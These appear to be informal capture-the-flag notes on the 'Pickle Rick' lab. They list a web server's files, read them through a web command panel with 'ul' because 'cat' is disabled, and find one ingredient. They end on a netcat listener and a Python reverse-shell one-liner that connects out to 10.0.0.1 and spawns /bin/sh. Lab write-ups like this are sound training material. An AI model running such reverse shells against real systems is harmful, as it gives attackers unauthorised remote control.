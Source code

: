 	ls -lah		total 40K
							drwxr-xr-x 3 root   root   4.0K Feb 10  2019 .
							drwxr-xr-x 3 root   root   4.0K Feb 10  2019 ..
							-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
							drwxrwxr-x 2 ubuntu ubuntu 4.0K Feb 10  2019 assets
							-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
							-rwxr-xr-x 1 ubuntu ubuntu 1.1K Feb 10  2019 denied.php
							-rwxrwxrwx 1 ubuntu ubuntu 1.1K Feb 10  2019 index.html
							-rwxr-xr-x 1 ubuntu ubuntu 1.5K Feb 10  2019 login.php
							-rwxr-xr-x 1 ubuntu ubuntu 2.0K Feb 10  2019 portal.php
							-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt

----> ok ok let's cat these text files
		
	cat clue.txt
	Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
		
Must find other ways to read/output the files, so... initializing google diving 
		
THIS WORKED:
		
	ul < clue.txt
	Look around the file system for the other ingredient.
		
I found the command here ----> https://jarv.org/posts/cat-without-cat/
		
So let 's now check the other files too!!!
		
	ul < Sup3rS3cretPickl3Ingred.txt
	mr. meeseek hair	<---- 	INGREDIENT ONE

looks like Rick maybe has a chance!
				
	ul < denied.php
hm... I should maybe try n curl this from the cli. so:

	curl 10.10.16.37/denied.php
nah, not doing anything interesting here. 
				
Since I 'm obviously on a restricted shell here,
I mean, I can execute all these linux native commands
AND I 'm www-data user soooo.. maybe get shell? 
				
	nc -lvnp 9988 
(to setup a listener for the shell on my end on port 9988 -random selection)
		
Let 's find a nice reverse shell script to throw at the CMD Panel onsite

Check:

PayloadsAllTheThings & GTFOBins & PentesterMonkey
and let 's see if and what works for this: 
		
---> Check python version ----> python3:

	which python3 -> /usr/bin/python3

so the shell one-liner must be python3
		
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	